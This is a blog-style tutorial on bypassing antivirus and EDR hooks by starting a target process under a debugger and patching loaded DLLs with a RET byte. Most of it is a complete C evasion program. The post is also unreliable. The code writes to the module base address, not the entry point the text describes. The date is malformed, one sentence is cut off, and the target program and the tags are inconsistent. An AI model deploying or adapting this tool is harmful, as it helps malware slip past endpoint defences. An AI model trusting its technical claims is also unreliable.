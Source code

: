 ```yaml
---
title: "Patching DLL Entry Points to Bypass AVs/EDRs Hooks"
author: fortyfour
date: 2023-06-029 23:31
categories: [Evasion, Buffer Overflow]
tags: [binary exploitation, exploit, buffer overflow, remote shell, evasion, developement, networking, shellcode, assembly, x86, x86_64, linux, c]
image: /assets/img/media/protocols-header.jpg
---
```


Diving into the realm of evasion techniques as we uncover a powerful method to outsmart antivirus (AV) and endpoint detection and response (EDR) systems. Discover the art of patching DLL entry points, a specialized approach that allows you to bypass security hooks and maintain stealthy operations in targeted scenarios by manipulating DLL execution.

---

<details>
  <summary><strong>Table of Contents</strong></summary>
<div markdown="1">

- [Introduction](#introduction)
- [Understanding API Hooking and DLL Injection](#understanding-api-hooking-and-dll-injection)
- [Analyzing DLLs Loaded in a Process](#analyzing-dlls-loaded-in-a-process)
- [Controlling DLL Execution by Patching Entry Points](#controlling-dll-execution-by-patching-entry-points)
- [Understanding the `LOAD_DLL_DEBUG_INFO` Debug Event](#understanding-the-load_dll_debug_info-debug-event)
- [Creating a Debugging Environment](#creating-a-debugging-environment)
- [Patching the Entry Point](#patching-the-entry-point)
- [Demonstration](#demonstration)
- [Conclusion](#conclusion)

</div>
</details>

## Introduction

Many antivirus (AV) and endpoint detection and response (EDR) solutions heavily rely on user-mode API hooking to detect malicious behavior in real-time. By injecting a dynamic-link library (DLL) into user processes, these products can monitor and identify suspicious activities during runtime. In this article, we will explore the technique of patching DLL entry points to bypass AV/EDR hooks. For our demonstration, we will use a simple "hello world" printout on the `DLL_PROCESS_ATTACH` event, implemented in a DLL called *AV/EDR Simulated DLL* created using Visual Studio. We will simulate AV/EDR hooking by injecting this DLL, using a DLL Injector called *DLL Injector*, into an example program called *dummy_program.exe*. It's important to note that this technique can be applied to various other products, including actual AV/EDR software (kinda the entire point of this article).

> You do not have to know or understand how to create a DLL or DLL Injector to follow along with this article or how the `DLL_PROCESS_ATTACH` event works. However, if you are interested in learning more about these topics, I recommend checking out the following articles: (im still working on them lol)
{: .prompt-warning }

> All of the source code for this article is available on [GitHub](https://github.com/9xN/Patching-DLL-Entry-Points)
{: .prompt-info }

## Understanding API Hooking and DLL Injection

User-mode API hooking involves injecting a DLL into targeted processes to intercept and monitor system calls and events. This technique allows AV/EDR solutions to intercept and analyze the behavior of running processes. By examining the DLLs loaded into processes, we can gain insights into the hooking mechanism employed by AV/EDR solutions. To illustrate this, we will utilize Sysinternals' Process Explorer, a powerful tool for inspecting running processes and their associated DLLs. The expected output of this tool is that we should see our *AV/EDR Simulated DLL* loaded into the *dummy_program.exe* process.

## Analyzing DLLs Loaded in a Process

Let's take a closer look at the process named Dummy.exe using Process Explorer. By examining the lower pane of the tool, we can observe that the DLL named `aswhook.dll` has been loaded into the process at startup. This DLL is responsible for Avast's hooking functionality.

## Controlling DLL Execution by Patching Entry Points

Patching the entry point of a DLL is somewhat obsolete and useless once the DLL is loaded and its `DllMain()` function has already executed. To successfully bypass AV/EDR hooks, the entry point must be patched **before execution takes place**. To achieve this, we can create a separate "spawner" process that acts as a debugger for our target process. This approach allows us to intercept and manipulate the loading and execution of DLLs.

## Understanding the `LOAD_DLL_DEBUG_INFO` Debug Event

In the context of debugging, the `DEBUG_EVENT` structure provides essential information, with the `LOAD_DLL_DEBUG_INFO` event being particularly relevant for our purpose. This event is triggered when a DLL is loaded into the target process. By leveraging this debug event, we can halt the execution of the debuggee process before any code within the loaded DLL is executed.

## Creating a Debugging Environment

To establish a debugging environment, we can utilize the `CreateProcess()` function with the appropriate Process Creation Flags. By setting the flag to `DEBUG_PROCESS`, the calling thread will start and debug the new process, including any child processes created by it. This configuration allows us to receive all related debug events using the `WaitForDebugEvent` function.

## Patching the Entry Point

With our debugging environment in place, we can now patch the entry point of the DLL before it executes any code. The patching process involves rewriting the first byte of the DLL's entry point with the opcode `(BYTE) 0xc3`, representing the RET instruction. By doing so, we redirect the execution flow of the DLL, effectively bypassing the AV/EDR hooks.

# Demonstration

To showcase the effectiveness of patching DLL entry points, we will demonstrate the technique in action. By following the outlined steps, we can observe how the debugger intercepts the loading of a DLL in the target process and successfully patches its entry point. This manipulation ensures that the DLL's code is not executed, rendering the AV/EDR hooks ineffective:

```c
#include <stdio.h>
#include <windows.h>
#include <string>

// Function to patch the entry point of a DLL
void PatchEntryPoint(LPVOID moduleBase)
{
    BYTE patchByte = 0xC3; // Opcode for RET instruction
    DWORD oldProtect, dummy;

    // Change the protection of the first byte of the DLL's code
    VirtualProtect(moduleBase, 1, PAGE_EXECUTE_READWRITE, &oldProtect);

    // Patch the entry point with the RET instruction
    memcpy(moduleBase, &patchByte, sizeof(BYTE));

    // Restore the original protection
    VirtualProtect(moduleBase, 1, oldProtect, &dummy);
}

int main(int argc, char* argv[])
{
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    DEBUG_EVENT debugEvent;
    BOOL debugStatus;

    if (argc < 2) {
        printf("Usage: %s <Program Name>\n", argv[0]);
        return 1;
    }

    // Convert program name to wide character string
    std::string programName(argv[1]);
    int requiredSize = MultiByteToWideChar(CP_UTF8, 0, programName.c_str(), -1, NULL, 0);
    if (requiredSize == 0) {
        printf("Failed to convert program name to wide character string.\n");
        return 1;
    }
    wchar_t* wideProgramName = new wchar_t[requiredSize];
    if (MultiByteToWideChar(CP_UTF8, 0, programName.c_str(), -1, wideProgramName, requiredSize) == 0) {
        printf("Failed to convert program name to wide character string.\n");
        delete[] wideProgramName;
        return 1;
    }

    // Initialize the structures
    ZeroMemory(&si, sizeof(STARTUPINFO));
    ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

    si.cb = sizeof(STARTUPINFO);

    // Create the target process with DEBUG_PROCESS flag
    if (!CreateProcess(NULL, wideProgramName, NULL, NULL, FALSE, DEBUG_PROCESS, NULL, NULL, &si, &pi))
    {
        printf("Failed to create the target process.\n");
        delete[] wideProgramName;
        return 1;
    }

    delete[] wideProgramName;

    printf("Target process created. Waiting for debug events...\n");

    // Wait for debug events
    while (debugStatus = WaitForDebugEvent(&debugEvent, INFINITE))
    {
        if (debugEvent.dwDebugEventCode == LOAD_DLL_DEBUG_EVENT)
        {
            // Patch the entry point of the loaded DLL
            PatchEntryPoint(debugEvent.u.LoadDll.lpBaseOfDll);
            printf("Entry point patched for DLL loaded at address: 0x%p\n", debugEvent.u.LoadDll.lpBaseOfDll);
        }

        // Continue the debuggee process
        ContinueDebugEvent(debugEvent.dwProcessId, debugEvent.dwThreadId, DBG_CONTINUE);
    }

    // Close handles
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

    return 0;
}
```
and when we run this...
![](/assets/img/media/dllpatching/patch_attempt1.png)
_DLL entry point patch attempt 1_

It works! it 
## Conclusion

Patching DLL entry points to bypass AV/EDR hooks provides an intriguing approach to evade detection and analysis by security solutions. By understanding the fundamentals of DLL injection, API hooking, and debugging, it becomes possible to manipulate the execution flow of loaded DLLs. This technique highlights the importance of continuous innovation and adaptation in the ever-evolving landscape of cybersecurity. However, it is crucial to emphasize the responsible use of such knowledge to ensure the overall security and integrity of systems.